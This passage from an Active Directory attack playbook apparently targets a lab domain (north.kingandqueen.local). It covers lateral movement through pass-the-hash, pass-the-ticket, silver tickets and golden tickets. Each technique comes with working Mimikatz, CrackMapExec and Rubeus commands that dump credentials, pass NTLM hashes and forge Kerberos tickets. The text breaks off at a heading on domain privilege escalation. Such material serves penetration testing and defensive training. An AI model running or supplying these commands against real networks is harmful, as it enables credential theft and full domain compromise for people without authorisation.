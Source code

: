 ### 3. Lateral Movement Techniques

#### Pass-the-Hash
- **Target**: Multiple servers in north.kingandqueen.local
- **Initial Access**: Compromise a server and extract NTLM hashes
- **Attack Technique**: Use captured NTLM hashes to authenticate without knowing the plaintext password
- **Commands**:
  ```powershell
  # Using Mimikatz
  Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'
  
  # Using CrackMapExec
  cme smb 192.168.56.25 -u Administrator -H <NTLM hash>
  ```

#### Pass-the-Ticket
- **Target**: Multiple servers in north.kingandqueen.local
- **Initial Access**: Compromise a server and extract Kerberos tickets
- **Attack Technique**: Use captured Kerberos tickets to authenticate to services
- **Commands**:
  ```powershell
  # Using Rubeus to extract tickets
  Rubeus.exe dump /service:krbtgt
  
  # Using Rubeus to pass the ticket
  Rubeus.exe ptt /ticket:<base64 ticket>
  ```

#### Silver Tickets
- **Target**: SQL and Exchange servers
- **Initial Access**: Compromise service account hash
- **Attack Technique**: Forge service tickets using service account NTLM hash
- **Commands**:
  ```powershell
  # Using Mimikatz
  Invoke-Mimikatz -Command '"kerberos::golden /domain:north.kingandqueen.local /sid:S-1-5-21-... /target:sql.north.kingandqueen.local /service:MSSQLSvc /rc4:<hash> /user:Administrator /ptt"'
  ```

#### Golden Tickets
- **Target**: north.kingandqueen.local domain
- **Initial Access**: Compromise the krbtgt account hash
- **Attack Technique**: Forge TGTs using the krbtgt account hash
- **Commands**:
  ```powershell
  # Using Mimikatz
  Invoke-Mimikatz -Command '"kerberos::golden /domain:north.kingandqueen.local /sid:S-1-5-21-... /rc4:<krbtgt hash> /user:Administrator /ptt"'
  ```

### 4. Domain Privilege Escalation

